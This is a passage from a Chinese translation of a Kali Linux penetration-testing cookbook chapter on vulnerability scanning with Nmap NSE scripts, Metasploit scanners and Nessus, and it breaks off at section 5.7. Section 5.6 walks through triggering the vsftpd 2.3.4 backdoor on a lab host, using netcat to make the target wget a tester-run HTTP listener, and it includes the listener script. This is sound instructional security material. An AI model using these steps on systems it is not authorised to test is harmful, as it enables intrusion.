






# 第五章 漏洞扫描

> 作者：Justin Hutchens
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

尽管可以通过查看服务指纹的结果，以及研究所识别的版本的相关漏洞来识别许多潜在漏洞，但这通常需要非常大量时间。 存在更多的精简备选方案，它们通常可以为你完成大部分这项工作。 这些备选方案包括使用自动化脚本和程序，可以通过扫描远程系统来识别漏洞。 未验证的漏洞扫描程序的原理是，向服务发送一系列不同的探针，来尝试获取表明漏洞存在的响应。 或者，经验证的漏洞扫描器会使用提供所安装的应用，运行的服务，文件系统和注册表内容信息的凭证，来直接查询远程系统。

## 5.1 Nmap 脚本引擎漏洞扫描

Nmap脚本引擎（NSE）提供了大量的脚本，可用于执行一系列自动化任务来评估远程系统。 Kali中可以找到的现有NSE脚本分为多个不同的类别，其中之一是漏洞识别。

### 准备

要使用NSE执行漏洞分析，你需要有一个运行 TCP 或 UDP 网络服务的系统。 在提供的示例中，会使用存在 SMB 服务漏洞的 Windows XP 系统。 有关设置 Windows 系统的更多信息，请参阅本书第一章“安装Windows Server”秘籍。

### 操作步骤

许多不同的方法可以用于识别与任何给定的NSE脚本相关联的功能。 最有效的方法之一是使用位于Nmap脚本目录中的`script.db`文件。 要查看文件的内容，我们可以使用`cat`命令，像这样：

```
root@KaliLinux:~# cat /usr/share/nmap/scripts/script.db | more 
Entry { filename = "acarsd-info.nse", categories = { "discovery", "safe", } } 
Entry { filename = "address-info.nse", categories = { "default", "safe", } } 
Entry { filename = "afp-brute.nse", categories = { "brute", "intrusive", } } 
Entry { filename = "afp-ls.nse", categories = { "discovery", "safe", } } 
Entry { filename = "afp-path-vuln.nse", categories = { "exploit", "intrusive", " vuln", } } 
Entry { filename = "afp-serverinfo.nse", categories = { "default", "discovery", "safe", } } 
Entry { filename = "afp-showmount.nse", categories = { "discovery", "safe", } } 
Entry { filename = "ajp-auth.nse", categories = { "auth", "default", "safe", } }
Entry { filename = "ajp-brute.nse", categories = { "brute", "intrusive", } } 
Entry { filename = "ajp-headers.nse", categories = { "discovery", "safe", } } 
Entry { filename = "ajp-methods.nse", categories = { "default", "safe", } } 
Entry { filename = "ajp-request.nse", categories = { "discovery", "safe", } }
```

这个`script.db`文件是一个非常简单的索引，显示每个NSE脚本的文件名及其所属的类别。 这些类别是标准化的，可以方便地对特定类型的脚本进行`grep`。 漏洞扫描脚本的类别名称是`vuln`。 要识别所有漏洞脚本，需要对`vuln`术语进行`grep`，然后使用`cut`命令提取每个脚本的文件名。像这样：

```
root@KaliLinux:~# grep vuln /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2 
afp-path-vuln.nse 
broadcast-avahi-dos.nse distcc-cve2004-2687.nse 
firewall-bypass.nse 
ftp-libopie.nse 
ftp-proftpd-backdoor.nse 
ftp-vsftpd-backdoor.nse 
ftp-vuln-cve2010-4221.nse 
http-awstatstotals-exec.nse 
http-axis2-dir-traversal.nse 
http-enum.nse http-frontpage-login.nse 
http-git.nse http-huawei-hg5xx-vuln.nse 
http-iis-webdav-vuln.nse 
http-litespeed-sourcecode-download.nse 
http-majordomo2-dir-traversal.nse 
http-method-tamper.nse http-passwd.nse 
http-phpself-xss.nse http-slowloris-check.nse 
http-sql-injection.nse 
http-tplink-dir-traversal.nse
```

为了进一步评估上述列表中任何给定脚本，可以使用`cat`命令来读取`.nse`文件，它与`script.db`目录相同。因为大多数描述性内容通常在文件的开头，建议你将内容传递给`more`，以便从上到下阅读文件，如下所示：

```
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-check-vulns.nse | more 
local msrpc = require "msrpc" 
local nmap = require "nmap" 
local smb = require "smb" 
local stdnse = require "stdnse" 
local string = require "string" 
local table = require "table"

description = [[ 
Checks for vulnerabilities: 
* MS08-067, a Windows RPC vulnerability 
* Conficker, an infection by the Conficker worm 
* Unnamed regsvc DoS, a denial-of-service vulnerability I accidentally found in Windows 2000 
* SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497) 
* MS06-025, a Windows Ras RPC service vulnerability 
* MS07-029, a Windows Dns Server RPC service vulnerability

WARNING: These checks are dangerous, and are very likely to bring down a server. These should not be run in a production environment unless you (and, more importantly, the business) understand the risks! 
```

在提供的示例中，我们可以看到`smb-check-vulns.nse`脚本检测 SMB 服务相关的一些拒绝服务和远程执行漏洞。 这里，可以找到每个评估的漏洞描述，以及 Microsoft 补丁和CVE 编号的引用，还有可以在线查询的其他信息。 通过进一步阅读，我们可以进一步了解脚本，像这样：

```
 --@usage -- nmap --script smb-check-vulns.nse -p445 <host> -- sudo nmap -sU -sS --script smb-check-vulns.nse -p U:137,T:139 <host> ---@output 
-- Host script results: -- | smb-check-vulns: -- |   MS08-067: NOT VULNERABLE -- |   Conficker: Likely CLEAN -- |   regsvc DoS: regsvc DoS: NOT VULNERABLE -- |   SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE -- |   MS06-025: NO SERVICE (the Ras RPC service is inactive) -- |_  MS07-029: NO SERVICE (the Dns Server RPC service is inactive) --- @args unsafe If set, this script will run checks that, if the system isn't --       patched, are basically guaranteed to crash something. Remember that --       non-unsafe checks aren't necessarily safe either) -- @args safe   If set, this script will only run checks that are known (or at --       least suspected) to be safe. ----------------------------------------------------------------------
```

通过进一步阅读，我们可以找到脚本特定的参数，适当的用法以及脚本预期输出的示例的详细信息。要注意一个事实，有一个不安全的参数，可以设置为值0（未激活）或1（激活）。这实际上是Nmap漏洞脚本中的一个常见的现象，理解它的用法很重要。默认情况下，不安全参数设置为0。当设置此值时，Nmap不执行任何可能导致拒绝服务的测试。虽然这听起来像是最佳选择，但它通常意味着许多测试的结果将不太准确，并且一些测试根本不会执行。建议激活不安全参数以进行更彻底和准确的扫描，但这只应在授权测试情况下针对生产系统执行。要运行漏洞扫描，应使用`nmap --script`参数定义特定的NSE脚本，并使用`nmap --script-args`参数传递所有脚本特定的参数。此外，要以最小的干扰输出来运行漏洞扫描，应将Nmap配置为仅扫描与被扫描服务对应的端口，如下所示：

```
root@KaliLinux:~# nmap --script smb-check-vulns.nse --scriptargs=unsafe=1 -p445 172.16.36.225

Starting Nmap 6.25 ( http://nmap.org ) at 2014-03-09 03:58 EDT 
Nmap scan report for 172.16.36.225 
Host is up (0.00041s latency). 
PORT    STATE SERVICE
445/tcp open  microsoft-ds 
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
| smb-check-vulns: 
|   MS08-067: VULNERABLE 
|   Conficker: Likely CLEAN 
|   regsvc DoS: NOT VULNERABLE 
|   SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE 
|   MS06-025: NO SERVICE (the Ras RPC service is inactive) 
|_  MS07-029: NO SERVICE (the Dns Server RPC service is inactive)

Nmap done: 1 IP address (1 host up) scanned in 18.21 seconds 
```

还有一个需要注意的NSE脚本，因为它提供了一个重要的漏洞扫描方式。 这个脚本是`smb-vulnms10-061.nse`。 这个脚本的细节可以通过使用`cat`命令`pipe`到`more`，从上到下阅读脚本来获得：

```
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-061.nse | more 
local bin = require "bin" 
local msrpc = require "msrpc" 
local smb = require "smb" 
local string = require "string" 
local vulns = require "vulns" 
local stdnse = require "stdnse"
description = [[ 
Tests whether target machines are vulnerable to ms10-061 Printer Spooler impersonation vulnerability. 
```

此漏洞是Stuxnet蠕虫利用的四个漏洞之一。 该脚本以安全的方式检查`vuln`，而没有崩溃远程系统的可能性，因为这不是内存损坏漏洞。 为了执行检测，它需要访问远程系统上的至少一个共享打印机。 默认情况下，它尝试使用LANMAN API枚举打印机，在某些系统上通常不可用。 在这种情况下，用户应将打印机共享名称指定为打印机脚本参数。 要查找打印机共享，可以使用`smb-enum-share`。

此外，在某些系统上，访问共享需要有效的凭据，可以使用`smb`库的参数 `smbuser`和`smbpassword`指定。我们对这个漏洞感兴趣的原因是，在实际被利用之前，必须满足多个因素必须。首先，系统必须运行涉及的操作系统之一（XP，Server 03 SP2，Vista，Server 08或Windows 7）。第二，它必须缺少MS10-061补丁，这个补丁解决了代码执行漏洞。最后，系统上的本地打印共享必须可公开访问。有趣的是，我们可以审计SMB 远程后台打印处理程序服务，以确定系统是否打补丁，无论系统上是否共享了现有的打印机。正因为如此，对于什么是漏洞系统存在不同的解释。一些漏洞扫描程序会将未修补的系统识别为漏洞，但漏洞不能被实际利用。或者，其他漏洞扫描程序（如NSE脚本）将评估所有所需条件，以确定系统是否易受攻击。在提供的示例中，扫描的系统未修补，但它也没有共享远程打印机。看看下面的例子：

```
root@KaliLinux:~# nmap -p 445 172.16.36.225 --script=smb-vuln-ms10-061

Starting Nmap 6.25 ( http://nmap.org ) at 2014-03-09 04:19 EDT 
Nmap scan report for 172.16.36.225 
Host is up (0.00036s latency). 
PORT    STATE SERVICE 
445/tcp open  microsoft-ds 
MAC Address: 00:0C:29:18:11:FB (VMware)

Host script results: 
|_smb-vuln-ms10-061: false

Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds 
```

在提供的示例中，Nmap已确定系统不易受攻击，因为它没有共享远程打印机。尽管确实无法利用此漏洞，但有些人仍然声称该漏洞仍然存在，因为系统未修补，并且可以在管理员决定从该设备共享打印机的情况下利用此漏洞。这就是必须评估所有漏洞扫描程序的结果的原因，以便完全了解其结果。一些扫描其仅选择评估有限的条件，而其他扫描其更彻底。这里很难判断最好的答案是什么。大多数渗透测试人员可能更喜欢被告知系统由于环境变量而不易受到攻击，因此他们不会花费无数小时来试图利用不能利用的漏洞。或者，系统管理员可能更喜欢知道系统缺少MS10-061补丁，以便系统可以完全安全，即使在现有条件下不能利用漏洞。

### 工作原理

大多数漏洞扫描程序通过评估多个不同的响应，来尝试确定系统是否容易受特定攻击。 在一些情况下，漏洞扫描可以简化为与远程服务建立TCP连接，并且通过自开放的特征来识别已知的漏洞版本。 在其他情况下，可以向远程服务发送一系列复杂的特定的探测请求，来试图请求对服务唯一的响应，该服务易受特定的攻击。 在NSE漏洞脚本的示例中，如果激活了`unsafe`参数，漏洞扫描实际上将尝试利用此漏洞。

## 5.2 MSF 辅助模块漏洞扫描

与NSE中提供的漏洞扫描脚本类似，Metasploit还提供了一些有用的漏洞扫描程序。 类似于Nmap的脚本，大多数是相当有针对性的，用于扫描特定的服务。

### 准备

要使用 MSF 辅助模块执行漏洞分析，你需要有一个运行 TCP 或 UDP 网络服务的系统。 在提供的示例中，会使用存在 SMB 服务漏洞的 Windows XP 系统。 有关设置 Windows 系统的更多信息，请参阅本书第一章“安装Windows Server”秘籍。

有多种不同的方法可以用于确定 Metasploit 中的漏洞扫描辅助模块。 一种有效的方法是浏览辅助扫描器目录，因为这是最常见的漏洞识别脚本所在的位置。 看看下面的例子：

```
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/scanner/
mysql# cat mysql_authbypass_hashdump.rb | more 
## 
# This file is part of the Metasploit Framework and may be subject to 
# redistribution and commercial restrictions. Please see the Metasploit 
# web site for more information on licensing and terms of use. 
#   http://metasploit.com/ 
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::MYSQL  
  include Msf::Auxiliary::Report

  include Msf::Auxiliary::Scanner

  def initialize    
      super(      
          'Name'           => 'MySQL Authentication Bypass Password Dump',      
          'Description'    => %Q{          
              This module exploits a password bypass vulnerability in MySQL in order to extract the usernames and encrypted password hashes from a MySQL server. These hashes are stored as loot for later cracking. 
```

这些脚本的布局是相当标准化的，任何给定脚本的描述可以通过使用`cat`命令，然后将输出`pipe`到`more`，从上到下阅读脚本来确定。 在提供的示例中，我们可以看到该脚本测试了MySQL数据库服务中存在的身份验证绕过漏洞。 或者，可以在MSF控制台界面中搜索漏洞识别模块。 要打开它，应该使用`msfconsole`命令。 搜索命令之后可以与服务相关的特定关键字一同使用，或者可以使用`scanner`关键字查询辅助/扫描器目录中的所有脚本，像这样：

```
msf > search scanner

Matching Modules 
================
 Name 
 Disclosure Date  Rank    Description   ----                                                                     ---------------  ----    ---------- 
 auxiliary/admin/smb/check_dir_file                                                        normal  SMB Scanner Check File/Directory Utility 
 auxiliary/bnat/bnat_scan                                                                  normal  BNAT Scanner
 auxiliary/gather/citrix_published_applications                                            normal  Citrix MetaFrame ICA Published Applications Scanner 
 auxiliary/gather/enum_dns                                                                 normal  DNS Record Scanner and Enumerator 
 auxiliary/gather/natpmp_external_address                                                  normal  NAT-PMP External Address Scanner 
 auxiliary/scanner/afp/afp_login                                                           normal  Apple Filing Protocol Login Utility 
 auxiliary/scanner/afp/afp_server_info                                                     normal  Apple Filing Protocol Info Enumerator 
 auxiliary/scanner/backdoor/energizer_duo_detect                                           normal  Energizer DUO Trojan Scanner 
 auxiliary/scanner/db2/db2_auth                                                            normal  DB2 Authentication Brute Force Utility
```

在识别看起来有希望的脚本时，可以使用`use`命令结合相对路径来激活该脚本。 一旦激活，以下`info`命令可用于读取有关脚本的其他详细信息，包括详细信息，描述，选项和引用：

```
msf > use auxiliary/scanner/rdp/ms12_020_check 
msf  auxiliary(ms12_020_check) > info

       Name: MS12-020 Microsoft Remote Desktop Checker     
       Module: auxiliary/scanner/rdp/ms12_020_check    
       Version: 0    
       License: Metasploit Framework License (BSD)       
       Rank: Normal

Provided by:  
    Royce Davis @R3dy_ <rdavis@accuvant.com>  
    Brandon McCann @zeknox <bmccann@accuvant.com>

Basic options:  
    Name     Current Setting  Required  Description  
    ----     ---------------  --------  ----------  RHOSTS                    yes       The target address range or CIDR identifier  
    RPORT    3389             yes       Remote port running RDP  
    THREADS  1                yes       The number of concurrent threads

Description:  
    This module checks a range of hosts for the MS12-020 vulnerability.   
    This does not cause a DoS on the target.
```

一旦选择了模块，`show options`命令可用于识别和/或修改扫描配置。 此命令将显示四个列标题，包括`Name`, `Current Setting`, `Required`, 和`Description`。 `Name`列标识每个可配置变量的名称。 `Current Setting`列列出任何给定变量的现有配置。 `Required`列标识任何给定变量是否需要值。 `Description`列描述每个变量的函数。 可以通过使用`set`命令并提供新值作为参数，来更改任何给定变量的值，如下所示：

```
msf  auxiliary(ms12_020_check) > set RHOSTS 172.16.36.225 
RHOSTS => 172.16.36.225 
msf  auxiliary(ms12_020_check) > run

[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed In this particular case, the system was not found to be vulnerable. However, in the case that a vulnerable system is identified, there is a corresponding exploitation module that can be used to actually cause a denial-of-service on the vulnerable system. This can be seen in the example provided:

msf  auxiliary(ms12_020_check) > use auxiliary/dos/windows/rdp/ms12_020_ maxchannelids 
msf  auxiliary(ms12_020_maxchannelids) > info

       Name: MS12-020 Microsoft Remote Desktop Use-After-Free DoS     Module: auxiliary/dos/windows/rdp/ms12_020_maxchannelids    
       Version: 0    
       License: Metasploit Framework License (BSD)       
       Rank: Normal

Provided by:  
    Luigi Auriemma  Daniel Godas-Lopez  
    Alex Ionescu  jduck <jduck@metasploit.com>  #ms12-020

Basic options:  
    Name   Current Setting  Required  Description  
    ----   ---------------  --------  ---------- 
    RHOST                   yes       The target address  
    RPORT  3389             yes       The target port

Description:  
    This module exploits the MS12-020 RDP vulnerability originally discovered and reported by Luigi Auriemma. 
    The flaw can be found in the way the T.125 ConnectMCSPDU packet is handled in the maxChannelIDs field, which will result an invalid pointer being used, therefore causing a denial-of-service condition. 
```

### 工作原理

大多数漏洞扫描程序会通过评估多个不同的响应来尝试确定系统是否容易受特定攻击。 一些情况下，漏洞扫描可以简化为与远程服务建立TCP连接并且通过自我公开的特征，识别已知的漏洞版本。 在其他情况下，可以向远程服务发送一系列复杂的特定的探测请求，来试图请求对服务唯一的响应，该服务易受特定的攻击。 在前面的例子中，脚本的作者很可能找到了一种方法来请求唯一的响应，该响应只能由修补过或没有修补过的系统生成，然后用作确定任何给定的是否可利用的基础。

## 5.3 使用 Nessus 创建扫描策略

Nessus是最强大而全面的漏洞扫描器之一。 通过定位一个系统或一组系统，Nessus将自动扫描所有可识别服务的大量漏洞。 可以在Nessus中构建扫描策略，以更精确地定义Nessus测试的漏洞类型和执行的扫描类型。 这个秘籍展示了如何在Nessus中配置唯一的扫描策略。

### 准备

要在Nessus中配置扫描策略，必须首先在Kali Linux渗透测试平台上安装Nessus的功能副本。 因为Nessus是一个需要许可的产品，它不会在Kali默认安装。 有关如何在Kali中安装Nessus的更多信息，请参阅第一章中的“Nessus 安装”秘籍。

### 操作步骤

要在Nessus中配置新的扫描策略，首先需要访问Nessus Web界面：`https：// localhost：8834`或`https://127.0.0.1:8834`。或者，如果你不从运行Nessus的相同系统访问Web界面，则应指定相应的IP地址或主机名。加载Web界面后，你需要使用在安装过程中配置的帐户或安装后构建的其他帐户登录。登录后，应选择页面顶部的`Policy`选项卡。如果没有配置其他策略，您将看到一个空列表和一个`New Policy`按钮。点击该按钮来开始构建第一个扫描策略。

单击`New Policy`后，`Policy Wizard`屏幕将弹出一些预配置的扫描模板，可用于加快创建扫描策略的过程。如下面的屏幕截图所示，每个模板都包含一个名称，然后简要描述其预期功能：


在大多数情况下，这些预配置的扫描配置文件中，至少一个与你尝试完成的配置相似。 可能所有这些中最常用的是`Basic Network Scan`。 要记住，选择任何一个选项后，仍然可以修改现有配置的每个详细信息。 它们只是在那里，让你更快开始。 或者，如果你不想使用任何现有模板，您可以向下滚动并选择`Advanced Policy`选项，这会让你从头开始。

如果选择任何一个预配置的模板，您可以通过三步快速的过程来完成扫描配置。 该过程分为以下步骤：

1.  步骤1允许您配置基本详细信息，包括配置文件名称，描述和可见性（公共或私有）。 公开的个人资料将对所有Nessus用户可见，而私人个人只有创建它的用户才能看到。

2.  步骤2将简单地询问扫描是内部扫描还是外部扫描。 外部扫描将是针对可公共访问的主机执行的，通常位于企业网络的DMZ中。 外部扫描不要求你处于同一网络，但可以在Internet上执行。 或者，从网络内执行内部扫描，并且需要直接访问扫描目标的LAN。

3.  步骤3，最后一步，使用SSH或Windows身份验证请求扫描设备的身份验证凭据。 完成后，访问`Profiles`选项卡时，可以在先前为空的列表中看到新的配置文件。 像这样：

    

这种方法可以快速方便地创建新的扫描配置文件，但不能完全控制测试的漏洞和执行的扫描类型。 要修改更详细的配置，请单击新创建的策略名称，然后单击`Advanced Mode`链接。 此配置模式下的选项非常全面和具体。 可以在屏幕左侧访问四个不同的菜单，这包括：

`General Settings`（常规设置）：此菜单提供基本配置，定义如何执行发现和服务枚举的详细端口扫描选项，以及定义有关速度，节流，并行性等策略的性能选项。

`Credentials`（凭证）：此菜单可以配置Windows，SSH，Kerberos 凭据，甚至一些明文协议选项（不推荐）。

`Plugins`（插件）：此菜单提供对Nessus插件的极其精细的控制。 “插件”是Nessus中用于执行特定审计或漏洞检查的项目。 你可以根据功能类型启用或禁用审计组，或者逐个操作特定的插件。

`Preferences`（首选项）：此菜单涵盖了Nessus所有操作功能的更模糊的配置，例如HTTP身份验证，爆破设置和数据库交互。

### 工作原理

扫描策略定义了Nessus所使用的值，它定义了如何运行扫描。 这些扫描策略像完成简单扫描向导设置所需的三个步骤一样简单，或者像定义每个独特插件并应用自定义认证和操作配置一样复杂。

## 5.4 Nessus 漏洞扫描

Nessus是最强大和全面的漏洞扫描器之一。 通过定位一个系统或一组系统，Nessus能够自动扫描所有可识别服务的大量漏洞。 一旦配置了扫描策略来定义Nessus扫描器的配置，扫描策略可用于对远程目标执行扫描并进行评估。这个秘籍将展示如何使用Nessus执行漏洞扫描。

### 准备

要在Nessus中配置扫描策略，必须首先在Kali Linux渗透测试平台上安装Nessus的功能副本。 因为Nessus是一个需要许可的产品，它不会在Kali默认安装。 有关如何在Kali中安装Nessus的更多信息，请参阅第一章中的“Nessus 安装”秘籍。

此外，在使用Nessus扫描之前，需要创建至少一个扫描策略。 有关在Nessus中创建扫描策略的更多信息，请参阅上一个秘籍。

### 操作步骤

要在Nessus中开始新的扫描，您需要确保在屏幕顶部选择了`Scans`选项卡。 如果过去没有运行扫描，则会在屏幕中央生成一个空列表。 要执行第一次扫描，您需要单击屏幕左侧的蓝色`New Scan`按钮，像这样：



这需要一些基本的配置信息。系统将提示你输入一系列字段，包括`Name`, `Policy`, `Folder`, 和 `Targets`。`Name`字段仅用作唯一标识符，以将扫描结果与其他扫描区分开。如果要执行大量扫描，则有必要非常明确扫描名称。第二个字段是真正定义扫描的所有细节。此字段允许你选择要使用的扫描策略。如果你不熟悉扫描策略的工作原理，请参阅本书中的上一个秘籍。登录用户创建的任何公共或私有扫描策略都应在`Policy`下拉菜单中显示。 `Folder`字段定义将放置扫描结果的文件夹。当你需要对大量扫描结果进行排序时，在文件夹中组织扫描会很有帮助。可以通过单击`New Folder`从`Scans`主菜单创建新的扫描文件夹。最后一个字段是`Targets`。此字段显示如何定义要扫描的系统。在这里，你可以输入单个主机IP地址，IP地址列表，IP地址的顺序范围，CIDR范围或IP范围列表。或者，你可以使用主机名，假设扫描器能够使用DNS正确解析为IP地址。最后，还有一个选项用于上传文本文件，它包含任何上述格式的目标列表，像这样：



配置扫描后，可以使用屏幕底部的`Launch`按钮来执行扫描。 这会立即将扫描添加到扫描列表，并且可以实时查看结果，如以下屏幕截图所示：


即使扫描正在运行，你也可以单击扫描名称，并在识别出来时开始查看漏洞。 颜色编码用于快速轻易地识别漏洞的数量及其严重性级别，如以下屏幕截图所示：



单击`Example`扫描后，我们可以看到两个正在扫描的主机。 第一个表示扫描完成，第二个主机完成了2%。 `Vulnerabilities`列中显示的条形图显示与每个给定主机关联的漏洞数量。 或者，可以单击屏幕顶部的`Vulnerabilities`链接，根据发现的漏洞以及确定该漏洞的主机数量来组织结果。 在屏幕的右侧，我们可以看到类似的饼图，但这一个对应于所有扫描的主机，如以下屏幕截图所示：



此饼图还清晰定义每种颜色的含义，从关键漏洞到详细信息。 通过选择任何特定主机IP地址的链接，你可以看到识别为该主机的特定漏洞：


此漏洞列表标识插件名称，通常会给出发现和严重性级别的简要说明。 作为渗透测试程序，如果你要在目标系统上实现远程代码执行，关键和高漏洞通常是最有希望的。 通过单击任何一个特定漏洞，你可以获得该漏洞的大量详细信息，如以下屏幕截图所示：



除了描述和修补信息之外，该页面还将为进一步研究提供替代来源，最重要的是（对于渗透测试人员）显示是否存在漏洞。 此页面通常还会表明可用的利用是否是公开的利用，或者是否存在于利用框架（如Metasploit，CANVAS 或 Core Impact）中。

### 工作原理

大多数漏洞扫描程序会通过评估多个不同的响应来尝试确定系统是否容易受特定攻击。 一些情况下，漏洞扫描可以简化为与远程服务建立TCP连接并且通过自我公开的特征，识别已知的漏洞版本。 在其他情况下，可以向远程服务发送一系列复杂的特定的探测请求，来试图请求对服务唯一的响应，该服务易受特定的攻击。 Nessus同时执行大量测试，来试图为给定目标生成完整的攻击面图像。

## 5.5 Nessuscmd 命令行扫描

Nessuscmd是Nessus中的命令行工具。 如果你希望将Nessus插件扫描集成到脚本，或重新评估先前发现的漏洞，Nessuscmd可能非常有用。

### 准备

要在Nessus中配置扫描策略，必须首先在Kali Linux渗透测试平台上安装Nessus的功能副本。 因为Nessus是一个需要许可的产品，它不会在Kali默认安装。 有关如何在Kali中安装Nessus的更多信息，请参阅第一章中的“Nessus 安装”秘籍。

### 操作步骤

你需要切换到包含nessuscmd脚本的目录来开始。 然后，通过不提供任何参数来执行脚本，你可以查看包含相应用法和可用选项的输出，如下所示：

```
root@KaliLinux:~# cd /opt/nessus/bin/ 
root@KaliLinux:/opt/nessus/bin# ./nessuscmd 
Error - no target specified 
nessuscmd (Nessus) 5.2.5 [build N25109] 
Copyright (C) 1998 - 2014 Tenable Network Security, Inc
Usage: 
nessuscmd <option> target... 
```

为了使用已知的Nessus插件ID对远程主机执行nessuscmd扫描，必须使用`-i`参数，并提供所需的插件ID的值。 出于演示目的，我们使用知名的MS08-067漏洞的插件ID执行扫描，如下所示：

```
root@KaliLinux:/opt/nessus/bin# ./nessuscmd -i 34477 172.16.36.135 
Starting nessuscmd 5.2.5 
Scanning '172.16.36.135'...

+ Host 172.16.36.135 is up 
```

第一次扫描在不容易受到指定插件测试的漏洞攻击的主机上执行。 输出显式主机已启动，但未提供其他输出。 或者，如果系统存在漏洞，会返回对应这个插件的输出，像这样：

```
root@KaliLinux:/opt/nessus/bin# ./nessuscmd -i 34477 172.16.36.225 
Starting nessuscmd 5.2.5 
Scanning '172.16.36.225'...

+ Results found on 172.16.36.225 :
   - Port microsoft-ds (445/tcp)     
    [!] Plugin ID 34477      
     | 
     | Synopsis : 
     | 
     | 
     | Arbitrary code can be executed on the remote host due to a flaw 
     | in the 
     | 'Server' service. 
     | 
     | Description : 
     | 
     | 
     | The remote host is vulnerable to a buffer overrun in the 'Server' 
     | service that may allow an attacker to execute arbitrary code on
     | the 
     | remote host with the 'System' privileges. 
     | See also : 
     | 
     | 
     | http://technet.microsoft.com/en-us/security/bulletin/ms08-067 
     | 
     | 
     | 
     | Solution : 
     |
     | Microsoft has released a set of patches for Windows 2000, XP, 2003, 
     | Vista and 2008\. 
     | 
     | Risk factor : 
     | 
     | 
     | Critical / CVSS Base Score : 10.0 
     | (CVSS2#AV:N/AC:L/Au:N/C:C/I:C/A:C) 
     | CVSS Temporal Score : 8.7 
     | (CVSS2#E:H/RL:OF/RC:C) 
     | Public Exploit Available : true
```

### 工作原理

大多数漏洞扫描程序会通过评估多个不同的响应来尝试确定系统是否容易受特定攻击。 一些情况下，漏洞扫描可以简化为与远程服务建立TCP连接并且通过自我公开的特征，识别已知的漏洞版本。 在其他情况下，可以向远程服务发送一系列复杂的特定的探测请求，来试图请求对服务唯一的响应，该服务易受特定的攻击。Nessuscmd执行相同的测试，或者由常规Nessus接口，给定一个特定的插件ID来执行。 唯一的区别是执行漏洞扫描的方式。

## 5.6 使用 HTTP 交互来验证漏洞

作为渗透测试者，任何给定漏洞的最佳结果是实现远程代码执行。 但是，在某些情况下，我们可能只想确定远程代码执行漏洞是否可利用，但不想实际遵循整个利用和后续利用过程。 执行此操作的一种方法是创建一个Web服务器，该服务器将记录交互并使用给定的利用来执行将代码，使远程主机与Web服务器交互。 此秘籍战死了如何编写自定义脚本，用于使用HTTP流量验证远程代码执行漏洞。

### 准备

要使用HTTP交互验证漏洞，你需要一个运行拥有远程代码执行漏洞的软件的系统。 此外，本节需要使用文本编辑器（如VIM或Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM和Nano）”秘籍。

### 操作步骤

在实际利用给定的漏洞之前，我们必须部署一个Web服务器，它会记录与它的交互。 这可以通过一个简单的Python脚本来完成，如下所示：

```
#!/usr/bin/python

import socket

print "Awaiting connection...\n"

httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
httprecv.bind(("0.0.0.0",8000)) 
httprecv.listen(2)

(client, ( ip,sock)) = httprecv.accept() 
print "Received connection from : ", ip 
data = client.recv(4096) 
print str(data)

client.close() 
httprecv.close()
```

这个Python脚本使用套接字库来生成一个Web服务器，该服务器监听所有本地接口的TCP 8000 端口。 接收到来自客户端的连接时，脚本将返回客户端的IP地址和发送的请求。 为了使用此脚本验证漏洞，我们需要执行代码，使远程系统与托管的Web服务进行交互。 但在这之前，我们需要使用以下命令启动我们的脚本：

```
root@KaliLinux:~# ./httprecv.py 
Awaiting connection... 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查Metasploitable2盒子内的Nessus扫描结果，我们可以看到运行的FTP服务有一个后门，可以通过提供带有笑脸的用户名来触发。 没有开玩笑……这实际上包含在 FTP 生产服务中。 为了尝试利用它，我们将首先使用适当的用户名连接到服务，如下所示：

```
root@KaliLinux:~# ftp 172.16.36.135 21 
Connected to 172.16.36.135. 
220 (vsFTPd 2.3.4) 
Name (172.16.36.135:root): Hutch:) 
331 Please specify the password. 
Password: 
^C 
421 Service not available, remote server has closed connection 
```

尝试连接到包含笑脸的用户名后，后门应该在远程主机的TCP端口6200上打开。我们甚至不需要输入密码。 反之，`Ctrl + C`可用于退出FTP客户端，然后可以使用Netcat连接到打开的后门，如下所示：

```
root@KaliLinux:~# nc 172.16.36.135 6200 
wget http://172.16.36.224:8000 
--04:18:18--  http://172.16.36.224:8000/
           => `index.html' Connecting to 172.16.36.224:8000... connected. 
HTTP request sent, awaiting response... No data received. 
Retrying.

--04:18:19--  http://172.16.36.224:8000/  
  (try: 2) => `index.html' 
Connecting to 172.16.36.224:8000... failed: Connection refused. 
^C
```

与开放端口建立TCP连接后，我们可以使用我们的脚本来验证，我们是否可以进行远程代码执行。 为此，我们尝试以 HTTP 检测服务器的 URL 使用`wget`。 尝试执行此代码后，我们可以通过查看脚本输出来验证是否收到了HTTP请求：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* 
Host: 172.16.36.224:8000 
Connection: Keep-Alive
```

### 工作原理

此脚本的原理是识别来自远程主机的连接尝试。 执行代码会导致远程系统连接回我们的监听服务器，我们可以通过利用特定的漏洞来验证远程代码执行是否存在。 在远程服务器未安装`wget`或`curl`的情况下，可能需要采用另一种手段来识别远程代码执行。

## 5.7 使用 ICMP 交互来验证漏洞

作为渗透测试者，任何给定漏洞的最佳结果是实现远程代码执行。 但是，在某些情况下，我们可能只想确定远程代码执行漏洞是否可利用，但不想实际遵循整个利用和后续利用过程。 一种方法是运行一个脚本，记录ICMP流量，然后在远程系统上执行ping命令。 该秘籍演示了如何编写自定义脚本，用于使用ICMP流量验证远程代码执行漏洞。

### 准备

